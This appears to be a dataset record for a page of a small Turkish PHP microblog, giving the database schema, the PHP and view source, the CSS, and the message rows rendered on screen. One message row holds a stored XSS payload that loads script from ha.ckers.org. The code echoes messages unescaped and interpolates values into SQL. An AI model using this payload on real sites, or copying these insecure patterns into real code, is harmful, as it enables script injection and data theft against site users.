
Page /index.php (signed in) on the committed database.
### tables this page shows
CREATE TABLE `messages` (
  `id` int(11) NOT NULL auto_increment,
  `user_id` int(11) NOT NULL,
  `message` varchar(140) NOT NULL,
  `created_at` datetime NOT NULL,
  PRIMARY KEY  (`id`)
);

CREATE TABLE `users` (
  `id` int(11) NOT NULL auto_increment,
  `name` varchar(50) NOT NULL,
  `surname` varchar(50) NOT NULL,
  `email` varchar(128) NOT NULL,
  `username` varchar(50) NOT NULL,
  `password` varchar(40) NOT NULL,
  PRIMARY KEY  (`id`)
);

### index.php (called while the page is built, shortened)
<?php
require 'includes/functions.php';
$query = mysql_query("SELECT * FROM messages ORDER BY created_at DESC") or die(mysql_error());
while ($info = mysql_fetch_assoc($query)) {
    $messages[] = $info;
}
require 'views/layout/header.php';
require 'views/index.php';
require 'views/layout/footer.php';

### includes/functions.php (called while the page is built, shortened)
<?php
function get_username($user_id) {
    $query = mysql_query("SELECT username FROM users WHERE id = '$user_id'");
    return mysql_result($query, 0);
}

### views/index.php (the view, shortened to what this page needs)
<div class="content_div">
    <div class="title">
        <div class="float-left">Mesajlar</div>
    </div>
</div>
<div class="spacer clearboth"></div>
<?php if (!empty($messages)) : ?>
<?php foreach ($messages as $message) : ?>
<div class="content_div">
    <div class="subtitle">
        <div class="float-left"><?php echo get_username($message['user_id']) ?></div>
        <div class="float-right timestamp"><?php echo strtotime($message['created_at']) ?></div>
    </div>
    <div class="rows">
        <div class="text">
            <div class="float-left">
                <?php if (file_exists('public/uploads/' . $message['user_id'] . '_t.jpg')) : ?>
                <img src="<?php echo DOC_ROOT ?>/public/uploads/<?php echo $message['user_id'] ?>_t.jpg" alt="" />
                <?php else : ?>
                <img src="<?php echo DOC_ROOT ?>/public/images/user_avatar.png" alt="" />
                <?php endif ?>
            </div>
            <div class="float-left" style="padding-left: 5px;">
                <?php echo $message['message'] ?>
            </div>
            <?php if ($_SESSION['user_id'] == $message['user_id']) : ?>
            <div class="float-right">
                <a href="<?php echo DOC_ROOT ?>/delete.php?message_id=<?php echo $message['id'] ?>" onclick="javascript: return confirm('Silmek istediğinize emin misiniz?');">
                    <img src="<?php echo DOC_ROOT ?>/public/images/ico-delete.png" alt="" />
                </a>
            </div>
            <?php endif ?>
        </div>
    </div>
</div>
<div class="spacer clearboth"></div>
<?php endforeach ?>
<?php endif ?>
<div class="spacer clearboth"></div>
<div class="content_div">
    <div class="title">
        <div class="float-left">Mesaj yaz</div>
    </div>
    <div class="rows">
        <div class="text">
            <?php if ($_SESSION['user_id'] > 0) : ?>
            <form action="" method="post">
                <textarea name="message" cols="70" rows="3"></textarea>
                <br />
                <input type="submit" class="button" value="Gönder" />
            </form>
            <?php else : ?>
            Mesaj gönderebilmek için
            <a href="<?php echo DOC_ROOT ?>/login.php">üye girişi</a>
            yapmanız gerekmektedir.
            <?php endif ?>
        </div>
    </div>
</div>

### public/css/style.css (style rules this page uses)
html { padding:0; margin:0; overflow-y: scroll; }
body { padding:0; margin:0; background: url('../images/bg.gif'); font-family: Arial, Helvetica, sans-serif; font-size: 15px; color: #000; cursor: default; }
a { outline: none; font-size: 14px; color: #0053A4; }
a:link { text-decoration: none; }
img { border: 0; }
.clearboth { clear:both; }
.spacer { height:10px; width:10px; }
div.content_div { width: 100%; }
div.content_div .title { min-height: 27px; padding: 7px 5px 0 5px; font-family: Calibri; font-size: 17px; background: url('../images/forum_title_bg.gif') repeat-x #EDECEE; border: 1px solid #d8d8d8; border-top-left-radius: 5px; border-top-right-radius: 5px; }
div.content_div .subtitle { height: 22px; padding: 5px 5px 0 5px; font-family: Calibri; font-size: 16px; color: #FFF; background: url('../images/forum_subtitle_bg.gif') repeat-x; }
div.content_div .text { padding: 5px; background: #FFF; border-bottom: 1px solid #d8d8d8; border-right: 1px solid #d8d8d8; border-left: 1px solid #d8d8d8; border-top: 0; }
.float-left { float: left; }
.float-right { float: right; }

### public/css/forms.css (style rules this page uses)
textarea { -moz-border-radius:2px; -webkit-border-radius:2px; border:1px solid #DBDBDB; font-size:13px; margin:0 0 5px; padding:5px; }
.button, a.button, .button-radius { -moz-border-radius:2px; -webkit-border-radius:2px; background:#39d url('../images/bg-btn-blue.png') repeat-x scroll 0 0; border:1px solid #39D; color:#fff; text-shadow:0 -1px 0 #39d; padding:5px 10px 4px; font-size:11px; margin:0 2px 0 0; font-weight:bold; width: auto; }

### rows in the picture
messages: user.username "rterzi", created_at "1341074738", message "<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>"
messages: user.username "rterzi", created_at "1341074434", message ":p"
messages: user.username "rterzi", created_at "1341067233", message "selamm..."
messages: user.username "hdogan", created_at "1341066912", message "en yeni mesaj...."
messages: user.username "hdogan", created_at "1341066163", message "ilk microblog postu...."

### other values in the picture
$_SESSION['name'] "Hidayet"
$_SESSION['surname'] "Doğan"
